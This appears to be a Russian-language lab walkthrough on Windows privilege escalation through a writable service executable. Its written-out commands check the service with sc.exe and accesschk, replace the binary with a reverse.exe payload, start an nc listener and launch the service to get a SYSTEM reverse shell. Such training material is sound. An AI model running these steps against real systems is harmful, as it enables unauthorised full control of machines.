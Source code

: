 # 🐾 6. Эксплуатация служб - Необезопасенные исполняемые файлы службы
---
## 📜 Описание задания
В этом задании мы будем использовать уязвимость, связанную с сервисом `filepermsvc`, который работает с привилегиями SYSTEM. Уязвимость заключается в том, что исполняемый файл службы доступен для записи для всех пользователей, что позволяет заменить его на наш собственный файл и получить обратный шелл с привилегиями SYSTEM.

---
## 🔍 Шаг 1: Проверка конфигурации сервиса
Сначала проверим конфигурацию сервиса `filepermsvc`, чтобы убедиться, что он работает с привилегиями SYSTEM. Выполните следующую команду:
`sc.exe qc filepermsvc`

### 📋 Ожидаемый вывод
- Убедитесь, что `SERVICE_START_NAME` указывает на SYSTEM.
![image](https://github.com/user-attachments/assets/eeb8e281-a588-4d9a-b3fc-ad968d7c8782)

## 🔑 Шаг 2: Проверка прав доступа к исполняемому файлу
Теперь используем инструмент `accesschk.exe`, чтобы проверить права доступа к исполняемому файлу для сервиса `filepermsvc`. Выполните следующую команду:
`C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"`

### 📋 Ожидаемый вывод
- Убедитесь, что исполняемый файл `filepermservice.exe` доступен для записи всем пользователям.
![image](https://github.com/user-attachments/assets/7005e051-598d-4c39-ad9c-c4e6d97d1842)

## 📝 Шаг 3: Замена исполняемого файла
Теперь мы заменим исполняемый файл `filepermservice.exe` на наш файл `reverse.exe`, который был создан ранее. Выполните следующую команду:
`copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" -Force`

### 📋 Ожидаемый вывод
- Убедитесь, что файл успешно заменен на `reverse.exe`.

## 🎧 Шаг 4: Запуск слушателя
Перед запуском сервиса убедитесь, что у вас запущен слушатель на Kali. Выполните следующую команду для запуска слушателя на Kali:
`nc -lvnp 53`

## 🚀 Шаг 5: Запуск сервиса
Теперь мы можем запустить сервис `filepermsvc`, который должен выполнить наш файл `reverse.exe` и предоставить нам обратный шелл с привилегиями SYSTEM. Выполните команду:
`net start filepermsvc`

### 📋 Ожидаемый вывод
- Убедитесь, что вы получили обратный шелл на Kali.
![image](https://github.com/user-attachments/assets/de67780f-f3db-4052-8f91-636881ae5068)

## 🎉 Поздравления!
Вы успешно использовали уязвимость в небезопасном исполняемом файле службы для получения обратного шелла с привилегиями SYSTEM! 🎊

## 📌 Примечания
- Убедитесь, что вы понимаете все шаги и их последствия.
- Используйте полученные знания ответственно и только в рамках разрешенных тестов на проникновение.
